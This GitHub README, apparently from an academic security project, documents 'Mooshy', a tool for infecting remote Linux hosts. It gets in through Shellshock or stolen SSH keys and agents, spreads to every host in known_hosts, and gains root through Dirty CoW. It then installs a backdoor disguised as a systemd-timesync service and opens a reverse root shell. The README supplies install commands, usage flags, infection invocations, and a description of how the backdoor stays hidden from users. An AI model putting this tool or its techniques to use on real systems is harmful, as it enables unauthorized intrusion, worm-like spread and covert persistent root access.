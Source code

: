 [![Build Status](https://travis-ci.com/rvolosatovs/mooshy.svg?token=Rr1zHeZEE84zs4P7sgSv&branch=master)](https://travis-ci.com/rvolosatovs/mooshy)

# Mooshy

## Description
Mooshy is a tool that automates the infection and execution of arbitrary code on remote Linux systems. It infects the victim machine exploiting either a [ShellShock Bash vulnerability](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) or by using a password-less SSH key or a running SSH agent. Once access to the machine is granted, [Dirty CoW](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) exploit is used to start a SUID root shell, through which a backdoor is installed on the system, masked as a systemd service file.

## Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

## Development:
```sh
    make
```

## Generation of the report:
```sh
    make report
```

\pagebreak

## Usage:
_Default values of some variables are environment-dependent_
```
    $ mooshy -help                                                       
    Usage of mooshy:
        -addr string
          	The lucky guy(in case of Shell Shock - endpoint)
        -moosh string
          	Path to moosh. If empty - uses the one from https://github.com/rvolosatovs/mooshy/releases/latest .
        -shellShock
          	Use Shell Shock for the infection
        -ssh
          	Use SSH for the infection
        -sshAgent string
          	Path to SSH agent socket (default "/run/user/1000/gnupg/S.gpg-agent.ssh")
        -sshKey string
          	Path to (passwordless) SSH private key (default "/home/rvolosatovs/.ssh/id_rsa")
        -sshKnown string
          	Path to SSH known_hosts file (default "/home/rvolosatovs/.ssh/known_hosts")
        -sshUser string
          	Username to connect as(e.g. for SSH) (default "averagejoe")
        -token string
          	Github token to use
        -useSSHAgent
          	Whether or not use SSH agent
        -useSSHKey
          	Whether or not use (passwordless) SSH private key
        -useSSHKnown
          	Whether or not to try to infect all hosts in SSH known_hosts file
```

\pagebreak

# Mechanism of action
The tool operates in 2 modes - infection and execution.

## Infection mode
```sh
   mooshy -ssh -useSSHAgent -sshUser averagejoe -addr 192.168.56.102 # Specific SSH host
   mooshy -ssh -useSSHAgent -useSSHKnown -sshKnown known_hosts -sshUser averagejoe # SSH known_hosts
   mooshy -shellShock -addr http://192.168.56.102/cgi-bin/index.cgi # ShellShock
```
- Connects to the victim machine(s) using either of:
    - SSH:
        - Connects to the `addr` specified and/or all hosts in `known_hosts` file, using either a running SSH agent(with `SSH_AUTH_SOCK` set in environment) or using a password-less private key, which provides access to the machine(s).
        - Copies the `moosh` binary to each victim using SFTP.
    - Shellshock:
        - Sends a GET request to `addr` specified, with embedded script in `User-Agent` header, which downloads `moosh` binary using `curl` and makes it executable.
- Executes the `moosh` binary on the victim machine, which:
    - Exploits [Linux kernel vulnerability(CVE-2016-5195)](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) (PoC uses vanilla Ubuntu 16.04 LTS VM) to overwrite a SUID binary(defaults `/usr/bin/passwd`) by shellcode, which sets `/proc/sys/vm/dirty_writeback_centisecs` to `0` and `exec`s `/bin/bash` with `root` privileges(it's a SUID binary owned by `root`). Note, that setting `/proc/sys/vm/dirty_writeback_centisecs` to `0` is required to prevent kernel panic, which would otherwise occur shortly after the execution of exploit due to an invalid state reached, which is triggered by the exploit.
    - Using the "suid root shell" installs the backdoor on the system.
    - Creates, enables and starts a `systemd-timesync` systemd service, which launches the backdoor service.
    - Restores the contents of the original binary in it's location and removes all temporary files.

\pagebreak

## Execution mode
```sh
   mooshy -addr 192.168.56.102:22 # The port should be any open port
```
- Connects to the backdoor running on the infected victim and returns a reverse `root` shell.

\pagebreak

# Attack analysis

## Dirty CoW exploit
>  A race condition was found in the way Linux kernel's memory subsystem
>  handled breakage of the read only private mappings COW situation on
>  write access.
>
>  An unprivileged local user could use this flaw to gain
>  write access to otherwise read only memory mappings and thus increase
>  their privileges on the system. ([Source](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

## Shellshock
> A flaw was found in the way Bash evaluated certain specially crafted environment variables. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue. ([Source](https://access.redhat.com/security/cve/cve-2014-6271))

## Infection
Once root access is gained through the Dirty CoW exploit, the machine is infected with a persistent backdoor. The binary code for the backdoor is embedded in the `moosh` binary. It creates and enables a new systemd service in `/lib/systemd/system/systemd-timesync.service` and installs the binary as `/lib/sytemd/systemd-timesync`. This name was chosen for its similarity to the existing `systemd-timesyncd` service, to hopefully avoid detection from unsuspecting users. All traces of the exploit are then erased, leaving only the newly installed service. 

\pagebreak

## Backdoor
The `systemd-timesync` service creates a raw socket that listens to TCP requests. The raw socket allows the backdoor to listen on all TCP ports with a single socket, while the TCP payload is still handled by the kernel so that normal service by the victim machine is unaffected. When a packet with a specific payload is received, it triggers the backdoor to open a reverse shell to the attacker's machine. The payload consists of a sentinel value, followed by the port number on which the attacker is listening for a reverse shell connection.

The backdoor then opens a new TCP connection to the source IP of the triggering packet, using the specified port. Since the backdoor is run as a systemd service, it has not tty attached. Instead, it uses the `script` executable, which is installed on linux by default, to create a pty and connect it to `/bin/bash`. This opens a fully interactive root shell on the victim's machine, whose input and output are then connected to the opened TCP connection. 

## Buffer overflow
A buffer overflow occurs when more data is put in a buffer than it can hold, leading to overwrite adjacent memory locations being overwritten. This problem can be abused to alter the return address and inject code on the stack.

To illustrate this concept, a vulnerable HTTP daemon (`hHTTPd`) is supplied as a proof of concept. It stores the HTTP request and reflects the path back to the client in the message body. However, if the user requests a path that is too long, it overflows the request buffer. This vulnerability is exploited to gain code execution. _At the moment, this is not implemented._
